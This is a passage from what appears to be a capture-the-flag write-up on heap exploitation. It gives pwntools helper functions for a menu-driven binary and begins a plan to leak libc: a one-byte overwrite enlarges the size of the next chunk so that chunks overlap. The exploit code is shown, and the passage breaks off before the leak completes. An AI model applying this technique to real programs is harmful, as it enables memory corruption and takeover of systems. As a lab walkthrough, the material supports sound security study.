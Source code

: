 ```python
    index += 1
    return index - 1
    
def free(index):
    io.sendline(b'2')
    io.sendlineafter(b'index: ', str(index).encode())
    io.recvuntil(b'> ')

def edit(index, data):
    io.sendline(b'3')
    io.sendlineafter(b'index: ', str(index).encode())
    io.sendlineafter(b'data: ', data)
    io.recvuntil(b'> ')

def read(index):
    io.sendline(b'4')
    io.sendlineafter(b'index: ', str(index).encode())
    output = io.recv(0x58)
    io.recvuntil(b'> ')
    return output

def quit():
    io.sendline(b'5')
    
io = start()
io.recvuntil(b'> ')

io.interactive()
```


### Approach

##### Everything will be better if I have the address of libc and heap

#### Leak libc

***target:*** unsortedbin + remainder. 

##### I can overwrite one byte, so I can control the size of the succeeding chunk. Thus, if I overwrite the size of the chunk with the larger size, then free it, this free chunk will overlap other chunk that doesn't free. 

```python
chunk_A = malloc()
chunk_B = malloc()
chunk_C = malloc()
chunk_D = malloc()

edit(chunk_A, p8(0)*0x58 + p8(0xc1))
free(chunk_B)

```
